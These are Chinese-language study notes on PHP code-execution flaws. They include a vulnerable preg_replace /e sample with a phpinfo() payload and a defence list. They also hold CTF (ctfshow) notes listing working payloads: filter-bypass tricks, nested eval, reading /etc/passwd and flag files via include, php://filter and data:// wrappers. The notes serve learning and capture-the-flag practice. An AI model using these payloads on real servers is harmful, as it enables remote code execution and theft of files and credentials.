 ### 正则代码执行

preg_replace 使用了 /e 模式，导致可以代码执行

```php 
<?php
$data = $_GET['data'];
preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1";',$data);
?>
<form>
<label>请输入你的数据</label>
<input type='text' name='data'/>
<input type='submit' value='提交'/>
</form>
<data>{${phpinfo()}}</data>
```

## 防御

```
1、使用 json 保存数组，当读取时就不需要使用 eval 了

2、对于必须使用 eval 的地方，一定严格处理用户数据（白名单、黑名单）

3、字符串使用单引号包括可控代码，插入前使用 addslashes 转义（addslashes、魔数引号、htmlspecialchars、 htmlentities、mysql_real_escape_string）

4、放弃使用 preg_replace 的 e 修饰符，使用 preg_replace_callback()替换（preg_replace_callback()）

5、若必须使用 preg_replace 的 e 修饰符，则必用单引号包裹正则匹配出的对象（preg_replace+正则）
```

# ctfshow

以前的笔记

```
system("tac fl*g.php");      倒序tac
echo `nl fl''ag.php`;

echo `cat fl*g.ph*`;

可以尝试通过嵌套eval函数来获取另一个参数的的方法来绕过，因为这里只判断了c这个参数，并不会判断其他参数的传入
c=eval($_GET[a]);&a=system('cat flag.php');
这里注意后面是a的参数，而不是c的参数，这个payload共传递了两个参数，第一个为嵌套eval第二个为向嵌套的eval传入参数

phpinfo(); 与 phpinfo()>  php的最后一行可以不用分号，相当于闭合

c=system("cp fla?.php 1.txt");    再访问XXXX/1.txt
?和*是   占位符  ?是占一个

c=`cp fla?.??? 1.txt`;          再访问XXXX/1.txt

c=include%0a$_GET[a]?>&a=/etc/passwd   %0a是换行符，这里去掉也没关系
c=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
使用嵌套传参，文件包含，伪协议

c=require$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php

c=data://text/plain,<?=system('tac fla*');?>
c=data://text/plain,<?php system("tac fla*");?>
c=data://text/plain,<?php system("tac fla?.php");?>
c=data://text/plain,<?php system("mv fla?.php 1.txt");?>

```